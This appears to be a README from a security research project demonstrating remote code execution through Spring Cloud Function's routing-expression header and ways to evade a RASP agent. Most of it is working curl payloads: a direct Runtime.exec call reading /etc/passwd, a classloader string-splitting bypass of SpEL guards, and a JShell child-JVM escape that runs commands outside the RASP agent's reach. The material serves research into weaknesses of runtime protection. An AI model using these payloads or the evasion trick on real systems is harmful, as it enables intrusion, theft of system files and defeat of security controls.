

- Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- if you use [rasp-agent](..%2Frasp-agent), add:
    - env RASP_AGENT_PATH=path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
    - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar

# attempt 1 [We are blocked]
`curl  -X POST http://localhost:8080/iamvulnerable \
   -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')"`
    
    

# attempt 2 [We bypassed Spel guards but we are still blocked as there are other guards]

`curl  -X POST http://localhost:8080/iamvulnerable -H "spring.cloud.function.routing-expression:   T(java.lang.ClassLoader).getSystemClassLoader().loadClass(\"java.lang\" + \".Runtime\").getMethods()[0].invoke(null).exec(\"cat /etc/passwd\")"
`
    

# Bypass using JVM escape 

`curl  -X POST http://localhost:8080/iamvulnerable -H "spring.cloud.function.routing-expression:   T(jdk.jshell.JShell).create().eval('System.out.println(\"Bypassed RASP - \" + ((Runtime)ClassLoader.getSystemClassLoader().loadClass(\"java.lang\" + \".Runtime\").getMethods()[0].invoke(null)).exec(\"cat /etc/passwd\").toString())')"
`
As shown below, we execute code in a child JVM, where RASP agent is not loaded. 

